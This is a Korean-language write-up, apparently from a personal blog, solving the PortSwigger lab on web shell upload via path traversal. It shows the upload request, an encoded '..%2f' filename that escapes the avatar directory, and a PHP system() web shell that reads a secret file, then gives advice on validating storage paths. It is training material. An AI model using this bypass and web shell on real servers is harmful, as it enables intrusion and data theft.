






+++
date = '2026-10-03T15:30:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Web shell upload via path traversal"
summary = "인코딩된 경로 구분자로 아바타 디렉터리를 벗어나 PHP 실행이 가능한 위치에 파일을 저장하는 File Upload 풀이"
toc = true
tags = ["File Upload", "Web Shell", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

> 

이 랩은 아바타 디렉터리에서 업로드한 코드가 실행되지 않도록 설정되어 있다. 파일 이름의 Path Traversal을 이용해 다른 위치에 저장하고, `/home/carlos/secret`의 내용을 읽어 제출하는 것이 목표다.

실습 계정은 `wiener:peter`다.

### File Upload 진단

먼저 주어진 실습 계정으로 로그인하여 이미지 업로드 요청을 확인한다.

```text
POST /my-account/avatar HTTP/2
Host: 0a07000a04252cd3811dc579009a0096.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPKIdS4gNANaMopQr
...

------WebKitFormBoundaryPKIdS4gNANaMopQr
Content-Disposition: form-data; name="avatar"; filename="fake-image.png"
Content-Type: image/png

image
------WebKitFormBoundaryPKIdS4gNANaMopQr
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryPKIdS4gNANaMopQr
Content-Disposition: form-data; name="csrf"

IRMFbqjQ9PkCqtWuT4ZZf1XTkEwaQ80r
------WebKitFormBoundaryPKIdS4gNANaMopQr--
```

파일 확장자를 `.php`, 내용을 `<?php phpinfo(); ?>`로 바꾸어 업로드하고 저장된 파일을 조회한다.



응답에는 PHP 코드가 텍스트로 그대로 표시된다. 파일은 저장되었지만 아바타 디렉터리에서 PHP가 실행되지 않는다.

`filename`을 `../../image/blog/posts/fake-image.php`로 바꾸면 업로드 응답에는 다음 경로가 표시된다.

```text
/files/avatars/../../image/blog/posts/fake-image.php
```

그러나 그 경로를 요청하면 파일을 찾을 수 없다는 응답이 돌아온다.



기존 `/files/avatars/fake-image.php`를 요청하면 방금 보낸 내용이 나타난다. 응답에 표시된 경로와 달리 파일은 기존 아바타 디렉터리에 저장된 것이다.

이 결과를 보면 파일명의 상대경로가 제거되는 것으로 추측할 수 있다. 슬래시를 인코딩한 `..%2ffake-image.php`로 바꾸어 처리 차이를 확인한다.



이번에는 상위 경로인 `/files/fake-image.php`에서 PHP 정보 페이지가 반환된다. 저장 위치가 달라지면서 PHP 실행도 가능해졌다.

---

## 익스플로잇

파일 이름을 `..%2ffake-image.php`로 유지하고 본문을 `<?php system("cat /home/carlos/secret"); ?>`로 바꾼다. 업로드 후 `/files/fake-image.php`를 조회하면 랩에서 지정한 파일 내용이 반환된다.



확인한 문자열을 제출하면 실습이 완료된다.



---

## 정리

같은 PHP 코드가 `/files/avatars/`에서는 원문으로 반환되고 `/files/`에서는 실행됐다. 파일 이름의 경로를 통해 저장 위치를 바꾸면서 디렉터리별 실행 제한을 벗어난 것이다.

저장 경로는 서버가 정한 디렉터리와 식별자로 구성하고, 경로 정규화 후에도 허용된 위치 안에 있는지 확인해야 한다. 실행 제한과 저장 경로 제한이 함께 적용되어야 업로드 파일이 다른 실행 경로로 이동하는 문제를 막을 수 있다.

유형별 원리와 다른 실습은 [File Upload Lab](/lab/portswigger-file-upload/)에 정리했다.
